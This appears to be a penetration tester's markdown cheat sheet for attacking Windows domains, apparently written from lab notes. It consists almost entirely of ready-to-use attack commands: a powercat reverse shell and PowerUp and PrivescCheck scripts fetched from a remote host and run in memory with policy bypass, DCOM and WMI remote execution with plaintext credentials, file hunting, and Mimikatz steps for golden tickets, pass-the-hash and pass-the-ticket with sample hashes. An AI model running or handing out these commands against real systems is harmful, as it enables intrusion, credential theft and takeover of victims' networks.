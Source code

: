 # Reverse Shells

--------
## Powercat Reverse Shell 

**In memory execution**

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://IP/powercat.ps1');powercat -c IP -p 4444 -e powershell"
```

## DCOM Reverse Shell

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","TARGET IP"))
```

```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjA...","7")
```

--------
# Enumeration

------
## General

**Look for interesting files**

```powershell
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.log -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path .\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.ini,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.log -File -Recurse -ErrorAction SilentlyContinue | ForEach-Object { Write-Host "File: $($_.Name)"; Get-Content $_.FullName }
```

## Enumerate Scheduled Tasks

**Filter by local users**

```powershell
Get-LocalUser | ForEach-Object { schtasks /query /fo LIST /v | findstr $_.Name }
Get-LocalUser | ForEach-Object { Get-ScheduledTask | findstr $_.Name }
```

**Filter by interesting strings**

```powershell
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
```

**Get all scheduled tasks**

```powershell
schtasks /query /fo LIST /v
```

## Enumerate Services

**All Services**

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

**Filter out C:\\Windows**

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} | findstr /v "C:\Windows"
```

## PowerUp.ps1

**In memory execution (works inside reverse shell without PS execution rights)**

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.186:8000/enum/PowerUp.ps1'); Invoke-AllChecks"
```

## PrivescCheck.ps1

**In memory execution (works inside reverse shell without PS execution rights)**

```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://IP/PrivescCheck.ps1'); Invoke-PrivescCheck"
```

-------
# Movement

-------
## WMI

**Create process on another machine (need Admin on target)**

```powershell
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

## WinRS

**Create process on another machine (need Admin on target)**

```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
```

---------
# Mimikatz

--------
## Golden Ticket

```js
# privilege::debug
# lsadump::lsa /patch (grab krbtgt ntlm hash and domain SID)
# kerberos::purge
# kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
# misc::cmd
# exit

psexec.exe \\dc1 cmd.exe 
```

> [!warning] `psexec.exe \\192.168.50.70 cmd.exe` would not work. 
> 
> Using `\\192.168.50.70` forces NTLM auth rather than Kerberos (overpass the hash technique), meaning the golden ticket is never actually used for auth

## Logon Passwords

```js
# sekurlsa::logonpasswords
# sekurlsa::pth /user:dave /domain:corp.com /ntlm:08d7a47a6f9f66b97b1bae4178747494 /run:powershell
```

## PTT

```js
# sekurlsa::tickets /export
# kerberos::purge
# kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

PS C:\Tools> klist
PS C:\Tools> ls \\<SPN FROM NAMELIST>\backup
```

> [!warning] The SPN ***must*** match the output of `klist` or else authentication will not work.
> E.g.
> ```js
> Server: cifs/web04 @ CORP.COM
> ```
> The resulting command must be: `ls \\web04\backup`
> 
> Whereas:
> ```js
> Server: cifs/web04.corp.com @ CORP.COM
> ```
> The resulting command must be: `ls \\web04.corp.com\backup`
> 
> This is true for ALL AUTH, whether it is listing a file share or RCE via `psexec` 





